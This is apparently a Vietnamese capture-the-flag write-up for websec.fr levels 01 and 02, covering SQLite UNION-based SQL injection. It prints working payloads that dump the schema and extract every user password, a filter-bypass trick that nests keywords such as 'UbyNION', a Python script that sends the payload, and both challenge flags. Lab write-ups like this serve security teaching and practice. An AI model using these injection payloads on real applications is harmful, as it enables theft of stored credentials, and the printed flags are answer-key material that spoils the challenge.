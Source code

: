 <!-- markdownlint-disable MD024 -->
# Websec

## Level 01

> Nothing fancy
>
> 🔥 <https://websec.fr/level01/>

Tại level 1 này, chúng ta sẽ bắt đầu với một thử thách SQL Injection đơn giản.

Ứng dụng sẽ lấy `id` chúng ta nhập vào và trả về username cũng như id tương ứng.

![image](images/level-01/image-1.png)

Nếu chúng ta nhập vào `1'` sẽ thấy lỗi xuất hiện. Từ đó cho ta biết server đang sử dụng SQLite và giá trị của `id` đang được truyền thẳng vào câu truy vấn.

![image](images/level-01/image-2.png)

Vậy chúng ta có thể sử dụng payload như sau để xác định phiên bản của SQLite.

```sql
1 UNION SELECT null, sqlite_version();
```

![image](images/level-01/image-3.png)

Với phiên bản là `3.27.2`, chúng ta sẽ sử dụng payload sau để biết được cấu trúc của database.

```sql
1 UNION SELECT null, sql FROM sqlite_master
```

![image](images/level-01/image-4.png)

Vậy là câu truy vấn gốc không lấy ra giá trị từ cột `password`, chúng ta sẽ tận dụng SQL Injection để thực hiện điều đó.

Với `id` là `1` thì chúng ta sẽ lấy được password chứa flag.

```sql
1 UNION SELECT null, password FROM users WHERE id=1
```

![image](images/level-01/image-5.png)

Ngoài ra, chúng ta cũng có thể sử dụng payload sau để lấy hết tất cả password có trong bảng `users`.

```sql
1 UNION SELECT null, group_concat(password) FROM users
```

### Flag

`WEBSEC{Simple_SQLite_Injection}`

## Level 02

> Nothing fancy, with a twist
>
> 🔥 <https://websec.fr/level02/>

![image](images/level-02/image-1.png)

Sang tới level 2 này, lập trình viên đã thay thế các từ `union`, `order`, `select`, `from`, `group`, `by` (không phân biệt hoa thường) thành chuỗi rỗng `''`.

![image](images/level-02/image-2.png)

Vậy chúng ta có thể tạo thành từ `UNION` bằng cách sử dụng `UbyNION`, những từ khoá khác cũng tạo tương tự.

Mình đã viết một script Python bên dưới để lấy flag.

```python
import requests
import re

URL = "https://websec.fr/level02/index.php"

payload = "1 UbyNION SbyELECT null, password FbyROM users where id=1"

def solve():
    data = {
        "user_id": f"{payload}",
        "submit": ""
    }

    r = requests.post(URL, data=data)
    flag = re.search(r"WEBSEC{\w*}", r.text).group(0)

    print(flag)


if __name__ == "__main__":
    solve()

```

### Flag

`WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`
